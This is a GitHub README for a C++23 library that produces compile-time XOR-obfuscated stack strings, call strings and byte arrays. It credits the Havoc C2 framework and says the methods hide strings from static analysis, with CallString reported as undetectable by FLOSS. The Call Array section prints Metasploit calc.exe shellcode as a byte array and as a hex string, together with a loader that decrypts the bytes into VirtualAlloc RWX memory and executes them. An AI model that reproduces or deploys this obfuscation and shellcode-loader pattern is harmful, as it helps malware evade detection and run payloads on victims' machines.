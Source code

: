 # malstring
Using c++23 compile-time magic to produce obfuscated PIC strings and arrays.

## Stack strings
Probably you already know the following code will force runtime construction of string "Stack string" on the stack.
```c++
#include <cstdio>

int main() {
	char stack_string[] = {'S', 't', 'a', 'c', 'k', ' ', 's', 't', 'r', 'i', 'n', 'g', '\0'};
	
	printf(stack_string);
}
```

[https://godbolt.org/z/hPYEnjn3s](https://godbolt.org/z/hPYEnjn3s)

This method is useful if you want to generate PIC code without using an .rdata section to store strings, or simply hide strings from static string search tools.

The only problem with this. Writing each string this way is extremely inconvenient. Also it's less readable.
This problem is especially evident when you want to encrypt stack string in compile time.

My library, using various metaprogramming tricks, produces compile-time XOR-encrypted stack strings without losing readability and convenience.
For each string it is possible to use its own XOR key.

```c++
StackString<"Null-terminated Stack String", RAND()> ss;
pm.EncryptDecrypt(); // don't forget to decrypt the string before using it
std::cout << ss.Buf << '\n';
pm.EncryptDecrypt(); // encrypt again after use

StackString<"Stack String without null terminator", RAND(), false> ss2;
pm2.EncryptDecrypt();
std::cout << ss2.Buf << '\n';
pm2.EncryptDecrypt();
```

[https://godbolt.org/z/dGePWeoaa](https://godbolt.org/z/dGePWeoaa)


## Call Strings

I found this technique in [HAVOC](https://github.com/HavocFramework/Havoc) C2 framework.

```c++
#include <cstdio>

#if (defined(_MSC_VER))
#define NOINLINE __declspec(noinline)
#else
#define NOINLINE __attribute__((noinline))
#endif


NOINLINE char SymH() {
	return 'H';
}
NOINLINE char SymE() {
	return 'E';
}
NOINLINE char SymL() {
	return 'L';
}
NOINLINE char SymO() {
	return 'O';
}
NOINLINE char SymNULL() {
	return '\0';
}

int main() {
	char Hello[6];
	Hello[0] = SymH();
	Hello[1] = SymE();
	Hello[2] = SymL();
	Hello[3] = SymL();
	Hello[4] = SymO();
	Hello[5] = SymNULL();
    
	printf("%s\n", Hello);
}
```
gcc optimizes all calls, so optimization must be disabled. Msvc works well even with optimization enabled.
[https://godbolt.org/z/4TGso8heb](https://godbolt.org/z/4TGso8heb)


My library also provides the ability to create XOR-encrypted call strings in a much more convenient way.

```c++
CallString<"Null-terminated Call String", RAND()> cs;
cs.EncryptDecrypt(); // don't forget to decrypt the string before using it
printf(cs.Buf);
cs.EncryptDecrypt(); // encrypt again after use

CallString<"Call String without null terminator", RAND()> cs2;
cs2.EncryptDecrypt();
printf(cs2.Buf);
cs2.EncryptDecrypt();

```
[https://godbolt.org/z/8n49Knov3](https://godbolt.org/z/8n49Knov3)

## Call Array

You can store more than just strings. This library also provides a way to store arrays.
This code demonstrates how to call the Metasploit shellcode, which launches Calc.exe

```c++
int main()
{
	constexpr std::array<std::uint8_t, 108> shellcode {
		0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C,
		0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
		0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74,
		0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
		0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE,
		0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0x0C, 0xCC, 0xCC,
	};
	
	CallArray<shellcode.size(), shellcode, RAND()> calc;
	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();
	
	calc.EncryptDecrypt();
}

```

You can even pass hex string instead of constexpr array.

``` c++
int main()
{
	CallArrayFromHex<"53 56 57 55 54 58 66 83 E4 F0 50 6A 60 5A 68 63 61 6C "
			 "63 54 59 48 29 D4 65 48 8B 32 48 8B 76 18 48 8B 76 10 48 AD "
			 "48 8B 30 48 8B 7E 30 03 57 3C 8B 5C 17 28 8B 74 1F 20 48 01 FE 8B 54 "
			 "1F 24 0F B7 2C 17 8D 52 02 AD 81 3C 07 57 69 6E 45 75 EF 8B 74 1F 1C "
			 "48 01 FE 8B 34 AE 48 01 F7 99 FF D7 48 83 C4 68 5C 5D 5F 5E 5B 0C "
			 "CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC", RAND()> calc;
	
	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();
	
	calc.EncryptDecrypt();
}

```
The only limitation of this method is EXTREMELY long compilation time for large arrays. A 1kb shellcode takes about 30 minutes compilation time.

## Detection
I tested StackString and CallString with [FLOSS](https://github.com/mandiant/flare-floss)
The StackString is sometimes detectable as "Tight string" (runtime decrypted stack string)
CallString is undetectable.

## Usage
Just copy header into your project. set c++ standard to c++23 or latest.
CRT isn't required.
